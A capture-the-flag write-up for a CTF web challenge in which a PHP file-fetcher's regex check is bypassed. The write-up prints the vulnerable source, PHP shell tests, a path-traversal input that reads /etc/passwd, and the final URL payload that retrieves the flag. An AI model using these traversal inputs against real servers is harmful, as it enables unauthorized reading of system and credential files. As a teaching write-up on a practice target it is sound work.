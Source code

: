 # GitFile Explorer
|  Web   | Warmup |
|--------|--------|

*Read /flag.txt on the server.*

[Challenge download file](https://github.com/kanin9/ctf/files/8313820/explorer.zip)

Challenge site: http://gitfile.ctf.zer0pts.com:8001/

![image](https://user-images.githubusercontent.com/101967194/159223046-5777bfed-fd37-453f-9655-3a4f813d1f3f.png)

It looks like a simple website which allows us to *download files on GitHub/GitLab/BitBucket*

Upon clicking on the Download button, a request to  this url is made https://raw.githubusercontent.com/ptr-yudai/ptrlib/master/README.md and the response of the url is shown in the textarea.

![image](https://user-images.githubusercontent.com/101967194/159223111-4084ff2d-2826-4bbf-ba48-5a8f5032c0d4.png)

We now have  a basic understanding of the website , let see what we can do here to read the `/flag.txt` file.

This url  is in the address bar, when we click on the *Download* button:

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

Looks like we can substitute the service parameter



**Looking into the source code:**


```php
<?php
function h($s) { return htmlspecialchars($s); }
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}

$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
?>
```

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

The `craft_url` function creates the final url which will be used later on by combining all the parameter values.It also checks the `service` parameter using `strpos` function, to see if it's contains the word github/gitlab/bitbucket 

The returned url from `craft_url` is then stored in variable `$url`, which is again validated using `preg_match` with a regex check.

--------------


```php
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https://github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//xyz?github");
1
```

Ok we can easily bypass the check now.
Btw did you noticed the final url `https//xyz?github` , the colon is missing here after the protocol part.

If we try to pass this url to `file_get_contents` function you will get below error:

```php
php > echo file_get_contents('https//xyz?github');
PHP Warning:  file_get_contents(https//xyz?github): failed to open stream: No such file or directory in php shell code on line 1
```


*No such file or directory* ahh nice. So php treats https//xyz?github as a local directory



Let's check what happens if we put the missing colon , will we get the same error:

```php
php > echo file_get_contents('https://xyz?github');
PHP Warning:  file_get_contents(): php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
PHP Warning:  file_get_contents(https://xyz?github): failed to open stream: php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
```

Nope! We see that it is now treated as web URL


Hmmm... what if we try to access passwd file?
Spoiler alert, it works))) 


```php
php > echo file_get_contents('https//xyz?github/../../../../etc/passwd');
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
And after playing around a bit, I was able to read the flag:
Final url
http://gitfile.ctf.zer0pts.com:8001/?service=https//../../../%2523github&owner=ptr-yudai&repo=ptrlib&branch=master&file=../../../../../flag.txt


`zer0pts{foo/bar/../../../../../directory/traversal}`
